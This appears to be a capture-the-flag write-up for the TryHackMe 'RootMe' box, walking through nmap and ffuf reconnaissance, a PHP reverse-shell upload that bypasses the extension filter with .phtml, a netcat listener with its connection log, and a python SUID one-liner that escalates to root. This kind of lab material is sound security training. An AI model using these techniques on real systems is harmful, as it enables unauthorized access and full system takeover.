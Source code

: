 # RootMe

**IP:** 10.10.22.114  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 01/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.22.114 -oA nmap/RootMe
```

| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 22   | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80   | http    | Apache httpd 2.4.29             |

## Enumeration

Fuzzed directories on the webserver (:80), major findings were `/uploads` and `/panel`
```
ffuf -u http://10.10.22.114:80/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -s -fc 403                   

uploads
.
panel
js
css
```

## Exploitation

I knew the webserver was running PHP from `Wappalyzer` and `shell.php` allowed file uploads. So I tried to upload a PHP reverse shell `shell.php`, which failed.
![[Pasted image 20250601105853.png]]
So I changed the extension to `.phtml` to bypass the extension filter and successfully uploaded my shell.
![[Pasted image 20250601112223.png]]
Then I opened a listener, went to `/uploads/shell.phtml` in my browser and got a working shell.
```bash
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.23.121.106] from (UNKNOWN) [10.10.22.114] 49560
SOCKET: Shell has connected! PID: 1680

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The first flag was in `/var/ww/user.txt`.
```bash
pwd
/var/www

cat user.txt
```

## Privilege Escalation

`linpeas` found that `python3` had SUID permissions.
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                            ...
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
...
```

I used these permissions to open a new shell as the `root` user.
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

The final flag was in the root user's home directory `/root/root.txt`
```
cat /root/root.txt
```

---
#nmap #ffuf #file-upload-bypass #reverse-shell #linpeas #suid-privesc #python-suid #extension-bypass
